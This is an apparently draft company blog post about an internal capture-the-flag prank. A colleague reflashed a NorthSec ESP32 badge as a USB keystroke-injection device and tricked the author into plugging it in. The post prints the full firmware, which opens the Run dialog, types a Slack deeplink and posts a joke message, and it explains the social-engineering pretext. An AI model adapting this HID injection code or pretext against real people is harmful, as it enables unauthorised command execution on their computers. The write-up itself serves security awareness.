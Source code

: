 ```yaml
---
layout: post

title: "🍩Hacking for fun and donuts🍩"

tags: [Hacking, Security, Cybersecurity, CTF, Capture The Flag]

author:
  name: Cedric Brisson
  bio: Lead SOC Analyst
  image: cbrisson.jpg

---
```



For this year’s CTF, one of the challenge was to donut me (@Cedric Brisson) and/or phish my credentials. For a hefty 300pts + some donuts, our one and only @Andre Theriault managed to win this challenge.

But how do you trick a security freak into getting donuted? Simple put, social engineering and a bit of tech wizardry.

The technical part
To better understand what actually happened, it’s important to do a quick dive into how André achieved this from a technical perspective.

# NorthSec in a nutshell 
 
To put it simply, NorthSec is one of the largest Canadian cybersecurity event hosted annually in Montreal. It’s known for a few things such as it’s technical talks, it’s workshops but most importantly, it’s CTF. It’s an event where a bunch of nerds group up and share information about cybersecurity. The talks ranges from stuff like “Under the Radar: How we found 0-days in the Build Pipeline of OSS Packages” to “Insert coin: Hacking arcades for fun”. Beyond its technical focus, NorthSec offers great networking opportunities in a vibrant setting, making it a must-attend for anyone serious about staying at the forefront of cybersecurity innovation and skill development.

But why are we talking about this? Well because this year, I happened to not attend the CTF but André did. Each year, NorthSec has 2 badges. One of the conferences and one for the CTF. This year was different however, there was only one badge but those attending the competition would get it flashed with a special software.

 

// TODO: ADD PIC OF BADGE
This year’s NorthSec badge
This year’s badge offered a few features. One thing that is recurrent every year is that it’s essentially made to be a social tool. You plug your badge into someone else’s badge to gain points that enable new animations. The “syncing” of the badges typically takes a few minutes which forces you to talk to people a bit a meet new friends. We managed to get a pretty long chain too! Linking with more badges at once would essentially activate a “point multiplier”.

 

// TODO: ADD PIC OF BADGE CHAIN

# The ESP32 
 
But how does the badge work? Well, it uses a chip called an ESP32. In essence, it’s essentially a small chip that’s easily programmable which offers a few features such as Bluetooth and WIFI capabilities. One of the key things it offers is being able to be reprogrammed. This will be important later on :wink:.

 

// TODO: ADD CLOSEUP OF BADGE

It was also connected to the following which were key to the exploit:

- A RESET button that essentially acts as a way to reboot the chip
- A BOOT button that, if pressed while plugging in the USB-C connector, enabled “flashing mode”
- A USB-C port to flash the chip

# The social engineering
In the context of information security, social engineering is the psychological manipulation of people into performing actions or divulging confidential information. A type of confidence trick for the purpose of information gathering, fraud, or system access, it differs from a traditional "con" in the sense that it is often one of the many steps in a more complex fraud scheme. It has also been defined as "any act that influences a person to take an action that may or may not be in their best interests."

Now that we understand the technical background of the exploit, let’s dive into how he managed to convince me to get donuted.

André knows I’m an avid CTF player. Knowing I couldn’t participate at this year’s edition, he offered me to lend me his badge so I could dump the firmware and start reverse engineering it to see if I couldn’t get a flag or two.

// TODO: ADD PIC OF CONVERSATION

What I thought was a kind offer ended up being my downfall. André had found a way to get me to plug something in my computer without doubting it’s legitimacy. He leveraged a passion of mine against me. This is exactly what social engineering is all about; leveraging human flaws to attain a goal the person would normally not go along with.

The malicious code
What André had secretly done was to upload “malicious” firmware that would loop a set of commands while pretending to be a keyboard. Here’s the code in question with some comments on what each line does:


```c
#include "USB.h"
#include "USBHIDKeyboard.h"
USBHIDKeyboard Keyboard;
const char* CTF_CHANNEL = "slack://channel?team=T025J1W63&id=C01D2N3Q5EF";
const char* DONUT = "/donut";
void setup() {
  Keyboard.begin(); // Sets everything to present itself as a keyboard
  USB.begin(); // Starts USB communication
}
void loop() {
    delay(5000); // Waits 5 seconds
    // Open Slack
    // ===================================================================
    Keyboard.press(KEY_LEFT_GUI); // Holds the "windows key"
    Keyboard.press('r'); // Presses the "r" key to start the "run" utility
    delay(100); // waits 100ms
    Keyboard.releaseAll(); // releases previously pressed keys
    delay(100); 
    // Writes the CTF channel deeplink to the run utility and presses enter
    Keyboard.println(CTF_CHANNEL); 
    delay(500);
    // ===================================================================
    // This loop repeats the following actions
    // ===================================================================
    for(int i = 0; i < 3; i++) {
      // sends message to channel
      Keyboard.println("I LOVE DONUTS, AND FREE 300PTS DURING CTFs");
      // sends donut command
      Keyboard.println(DONUT);
      delay(500);
    }
    // ===================================================================
    delay(1000);
}
```
All in all, it’s a fairly simple program.

# What are deeplinks?
To fully understand the “exploit”, we have to dive into deeplinks. A deeplink is defined as such:

A custom URL schemes to direct users to specific pages within an app, enhancing user engagement, retention, and improving conversion rates

We’re all familiar with http/s URLs such as “https://coveo.com”. The “https://” part is referred to as a “scheme”. There’s a ton of schemes out there such as “http://”, “https://”, “ftp://”, “ssh://”, and so on. Nearly anything goes as long as your system supports it. 

It just so happened that Slack has it’s own deeplink which is “slack://…”. With this, one can simply open Slack with the following link “slack://channel?team=T025J1W63&id=C01D2N3Q5EF”. Let’s break it down:

- slack:// → The Slack deeplink scheme
- channel → Telling slack what you want to open is a channel
- ?team=T025J1W63 → Our Slack org ID
- &id=C01D2N3Q5EF → The channel ID (in this case, it’s #coveo-ctfs)

Piecing all of this together, you can a simple URL that opens Slack directly to the CTF channel. It’s a very elegant way of avoiding having to automate tabbing through all possible channels and checking if you’ve tabbed on the right one.

# Where it nearly went wrong
Upon getting my hands on the badge, my first instinct was to directly plug the badge to my computer but in flash mode. When in flash mode, the firmware on the device does not run. This means that his exploit wouldn’t have worked. By pure luck, for reasons unknown to me, the firmware dump was taking an insane long time to complete. 

This gave André a chance to sneak up next to me and “just start looking at my badge”. To my surprise, the dump suddenly stopped and I thought it was because the USB connector had made a bad contact or something. Turns out André had sneakily pushed the reset button putting the badge into it’s malicious state which executed the code.

// TODO: ADD PIC OF DONUT MESSAGE

And just like that, I owed a few boxes of Donuts and André won 300pts🍩

Let’s see who can achieve a similar feat next year :wink: